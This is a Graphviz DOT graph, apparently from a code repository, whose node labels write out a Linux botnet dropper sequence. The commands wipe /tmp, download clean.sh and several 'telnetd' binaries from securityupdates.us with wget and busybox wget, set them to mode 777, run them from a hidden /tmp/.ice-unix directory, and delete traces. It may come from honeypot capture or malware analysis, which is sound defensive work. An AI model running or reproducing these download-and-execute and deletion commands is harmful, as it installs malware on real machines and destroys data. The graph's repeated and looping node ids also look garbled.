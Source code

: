 digraph {
10 [label="cd /tmp "];
10 -> 10
2 [label="rm -f /tmp/.* "];
2 -> 2
4 [label="rm -f /tmp/* "];
4 -> 4
6 [label="wget http://securityupdates.us/clean.sh "];
6 -> 6
14 [label="chmod a+x clean.sh "];
14 -> 14
10 [label="cd /tmp "];
10 -> 10
12 [label="busybox wget http://securityupdates.us/clean.sh "];
12 -> 12
14 [label="chmod a+x clean.sh "];
14 -> 14
16 [label="sh clean.sh "];
16 -> 18 [label="SC,(,"];
18 [label="mkdir .ice-unix/ "];
18 -> 20 [label="),&,"];
20 [label="cd /tmp/.ice-unix "];
20 -> 20
22 [label="rm -rf ./* "];
22 -> 22
24 [label="wget http://securityupdates.us/telnetd_el "];
24 -> 24
68 [label="chmod 777 telnetd_el "];
68 -> 68
70 [label="./telnetd_el "];
70 -> 70
30 [label="/tmp/telnetd_el "];
30 -> 30
103 [label="rm -f /tmp/.ice-unix/* "];
103 -> 103
34 [label="wget http://securityupdates.us/telnetds "];
34 -> 34
76 [label="chmod 777 telnetds "];
76 -> 76
78 [label="./telnetds "];
78 -> 78
103 [label="rm -f /tmp/.ice-unix/* "];
103 -> 103
42 [label="wget http://securityupdates.us/telnetdm "];
42 -> 42
84 [label="chmod 777 telnetdm "];
84 -> 84
86 [label="./telnetdm "];
86 -> 86
103 [label="rm -f /tmp/.ice-unix/* "];
103 -> 103
50 [label="wget http://securityupdates.us/telnetdpc "];
50 -> 50
92 [label="chmod 777 telnetdpc "];
92 -> 92
94 [label="./telnetdpc "];
94 -> 94
103 [label="rm -f /tmp/.ice-unix/* "];
103 -> 103
58 [label="wget http://securityupdates.us/telnetdsh "];
58 -> 58
100 [label="chmod 777 telnetdsh "];
100 -> 100
102 [label="./telnetdsh "];
102 -> 102
103 [label="rm -f /tmp/.ice-unix/* "];
103 -> 103
66 [label="busybox wget http://securityupdates.us/telnetd_el -P /tmp/.ice-unix "];
66 -> 66
68 [label="chmod 777 telnetd_el "];
68 -> 68
70 [label="./telnetd_el "];
70 -> 70
103 [label="rm -f /tmp/.ice-unix/* "];
103 -> 103
74 [label="busybox wget http://securityupdates.us/telnetds -P /tmp/.ice-unix "];
74 -> 74
76 [label="chmod 777 telnetds "];
76 -> 76
78 [label="./telnetds "];
78 -> 78
103 [label="rm -f /tmp/.ice-unix/* "];
103 -> 103
82 [label="busybox wget http://securityupdates.us/telnetdm -P /tmp/.ice-unix "];
82 -> 82
84 [label="chmod 777 telnetdm "];
84 -> 84
86 [label="./telnetdm "];
86 -> 86
103 [label="rm -f /tmp/.ice-unix/* "];
103 -> 103
90 [label="busybox wget http://securityupdates.us/telnetdpc -P /tmp/.ice-unix "];
90 -> 90
92 [label="chmod 777 telnetdpc "];
92 -> 92
94 [label="./telnetdpc "];
94 -> 94
103 [label="rm -f /tmp/.ice-unix/* "];
103 -> 103
98 [label="busybox wget http://securityupdates.us/telnetdsh -P /tmp/.ice-unix "];
98 -> 98
100 [label="chmod 777 telnetdsh "];
100 -> 100
102 [label="./telnetdsh "];
102 -> 102
}
